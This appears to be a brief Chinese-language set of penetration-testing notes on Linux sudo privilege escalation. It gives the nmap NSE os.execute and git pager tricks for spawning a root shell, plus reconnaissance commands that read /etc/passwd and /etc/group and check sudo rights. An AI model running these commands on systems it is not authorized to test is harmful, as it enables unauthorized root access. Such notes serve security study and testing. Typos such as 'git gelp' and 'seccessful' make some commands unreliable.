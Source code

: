 # sudo提权
## nmap
如果发现`(root)NOPASSWD:/usr/bin/nmap`则nmap不需要密码便可以用root权限执行,开始提权

    echo 'os.execute("/bin/sh")' > getShell.nse
    sudo -u root nmap --script=getShell.nse

## git
    sudo git -p --help
    或者
    sudo git gelp config
    最后!/bin/bash

# 1. 信息搜集
1. 首先找到登录用户
```
cat /etc/passwd|grep sh
```
2. 通过/etc/group文件查看sudo组成员，也可以直接`id 用户名`查看是否是sudo组成员
```
cat /etc/group|grep sudo
```
3. 通过查看家目录隐藏文件，寻找。sudo_as_admin_seccessful文件，证实sudo成功使用
```
这里我们可以直接搜索这个文件，然后看是在哪个家目录下面即可
find / -name .sudo_as_admin_seccessful
或者一个个进入sudo组的用户家目录下面进行
ls -al
```
4. 在某些时刻被设置为NOPASSWD，可以sudo -l
```
(root)NOPASSWD:/usr/bin/nmap
```